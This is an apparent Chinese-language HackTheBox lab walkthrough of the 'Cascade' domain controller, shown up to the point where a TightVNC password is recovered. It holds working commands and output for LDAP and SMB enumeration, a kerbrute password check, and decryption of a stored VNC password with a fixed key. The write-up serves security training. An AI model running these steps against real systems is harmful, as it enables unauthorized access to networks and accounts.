 ```yaml
---
title: "HTB WP: Cascade"
date: 2024-04-20T00:42:39+08:00
description: HackTheBox Cascade Walkthrough
math: false
tags: [
    "Active Directory",
    "LDAP",
    "Kerberos",
    "SMB",
    ".NET",
    "Reverse Engineering",
    "TightVNC",
]
categories: [
    "HackTheBox"
]
draft: true
---
```


## nmap 枚举

```bash
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.182 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.10.182
```

```txt
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-18 09:02:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

389, 636, 3268, 3269 端口是 LDAP 端口，这台主机大概率是一台域控主机。且通过 nmap 默认脚本可知域名为 cascade.local

## 尝试 smb 枚举

优先查看smb匿名登录权限

匿名登录smb，查看共享文件夹（Sharename）

```bash
smbclient -L 10.10.10.182
```

```txt
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.182 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

无法获取信息

## LDAP 枚举

<https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap>

```bash
# 简单的LDAP枚举
nmap -p 389 --script ldap-rootdse 10.10.10.182
```

```txt
...
dnsHostName: CASC-DC1.cascade.local
|       ldapServiceName: cascade.local:casc-dc1$@CASCADE.LOCAL
|       serverName: CN=CASC-DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=cascade,DC=local
...
```

通过 [`windapsearch`](https://github.com/ropnop/go-windapsearch) 输出LDAP的所有属性

```bash
# 输出所有用户属性
./windapsearch --dc 10.10.10.182 --full -m users
```

```txt
...
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
cascadeLegacyPwd: clk0bjVldmE=
...
```

用户描述字段中似乎没有任何密码，因此我们可以开始检查其他用户属性。用户 r.thompson 的一个属性叫做 cascadeLegacyPwd ，其中包含一个 Base64 编码字符串。解码之后使用 kerbrute 测试，发现就是他的密码。

```bash
kerbrute passwordspray --dc 10.10.10.182 -d cascade.local r.thompson rY4n5eva
```

## 利用 r.thompson 的账户凭证

- 尝试powershell remoting，但是失败

```bash
evil-winrm -i 10.10.10.182 -u r.thompson -p rY4n5eva
```

- 登录 smb

```bash
# 查看共享权限
smbmap -H 10.10.10.182 -u r.thompson -p 'rY4n5eva'
```

```txt
[+] IP: 10.10.10.182:445   Status: Authenticated
        Disk               Permissions     Comment
        ----               -----------     -------
        ADMIN$             NO ACCESS       Remote Admin
        Audit$             NO ACCESS
        C$                 NO ACCESS       Default share
        Data               READ ONLY
        IPC$               NO ACCESS       Remote IPC
        NETLOGON           READ ONLY       Logon server share
        print$             READ ONLY       Printer Drivers
        SYSVOL             READ ONLY       Logon server share
```

```bash
# 登录
smbclient \\\\10.10.10.182\\Data -U r.thompson
```

```txt
smb: \IT\Email Archives\> get Meeting_Notes_June_2018.html
```

查看下载的html文件

```bash
cat Meeting_Notes_June_2018.html
```

```html
...
We will be using a temporary account to perform all tasks related to the network
migration and this account will be deleted at the end of 2018 once the migration
is complete. This will allow us to identify actions related to the migration in
security logs etc. Username is TempAdmin (password is the same as the normal
admin account password).
...
```

获得信息：TempAdmin账户的密码与默认管理员账户的密码相同

下载其他敏感文件

```txt
smb: \IT\Logs\Ark AD Recycle Bin\> get ArkAdRecycleBin.log
smb: \IT\Logs\DCs\> get dcdiag.log
```

ArkAdRecycleBin.log 包含了一个名为 ARK AD RECYCLE BIN MANAGER 的程序的文本日志。

```bash
cat ArkAdRecycleBin.log
```

```txt
1/10/2018 15:43 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
1/10/2018 15:43 [MAIN_THREAD]   Validating settings...
1/10/2018 15:43 [MAIN_THREAD]   Error: Access is denied
1/10/2018 15:43 [MAIN_THREAD]   Exiting with error code 5
2/10/2018 15:56 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD]   Validating settings...
2/10/2018 15:56 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
2/10/2018 15:56 [MAIN_THREAD]   Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Exiting with error code 0
8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Exiting with error code 0
```

日志告诉我们程序正在 ArkSvc 的上下文中运行，并且 TempAdmin 账户已被移动到回收站。

最后，Temp 包含了用户 r.thompson 和 s.smith 的文件夹。在 s.smith 的文件夹中可以找到 VNC Install.reg 文件。这似乎是 TightVNC 的注册表设置备份，一个桌面远程控制程序。

```txt
smb: \IT\Temp\s.smith\> get "VNC Install.reg"
```

```bash
cat "VNC Install.reg"
```

```txt
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
...
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
...
```

## TightVNC 注册表密码解密

<https://github.com/frizb/PasswordDecrypts>

```bash
$> msfconsole

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
 => "sT333ve2"
```

获得 s.smith 的 TightVNC 密码：sT333ve2
